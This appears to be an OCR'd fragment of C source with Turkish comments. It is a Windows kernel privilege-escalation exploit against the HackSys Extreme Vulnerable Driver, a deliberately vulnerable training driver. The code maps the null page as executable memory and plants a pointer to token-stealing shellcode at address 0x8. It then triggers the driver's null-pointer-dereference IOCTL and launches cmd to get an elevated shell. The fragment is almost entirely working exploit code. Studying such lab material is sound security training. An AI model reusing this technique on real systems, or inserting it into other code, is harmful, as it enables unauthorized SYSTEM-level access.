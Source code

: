 ```c

	if(hDeviceHandle == INVALID_HANDLE_VALUE)
	{
		printf("Surucuye tutamak alamiyoruz?!\n");
		goto RETURN;
	}

	printf("Hop, tutamak geldi : %p\n", hDeviceHandle);

	//
	// '0' adresini hazırla
	//
	a_NtAllocateVirtualMemory = (p_NtAllocateVirtualMemory)GetProcAddress(
		GetModuleHandleA("ntdll.dll"),
		"NtAllocateVirtualMemory");
	if (a_NtAllocateVirtualMemory == NULL)
	{
		printf("Fonksiyonun adresini alamadik :(\n");
		goto RETURN;
	}

	//
	// Alan ayır, BaseAddress değeri olarak kullandığımız 1, 0'a düşürülecek hizalama
	// olayının sağlanabilmesi için
	//
	NtStatus = a_NtAllocateVirtualMemory(
		GetCurrentProcess(),
		&BaseAddress,
		0,
		&Size,
		MEM_COMMIT | MEM_RESERVE,
		PAGE_EXECUTE_READWRITE);

	if(NtStatus != STATUS_SUCCESS)
	{
		printf("Alan ayiramadik : %x :(\n", NtStatus);
		goto RETURN;
	}

	//
	// 0x0 + 0x8 uzaklığına, bizim "token" çalan "shellcode"umuzu koy
	//
	*(unsigned long long*)0x8 = (unsigned long long)&cakal;

	//
	// Hadi (b)akalım :P
	//
	Result = DeviceIoControl(
		hDeviceHandle,
		HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE,
		&SahteVeri,
		sizeof(SahteVeri),
		NULL,
		0,
		&Retval,
		NULL);

        printf("Evet, emaneti yolladik! Sonuc : %d\n", Result);
	system("cmd");

RETURN:

	if(hDeviceHandle)
```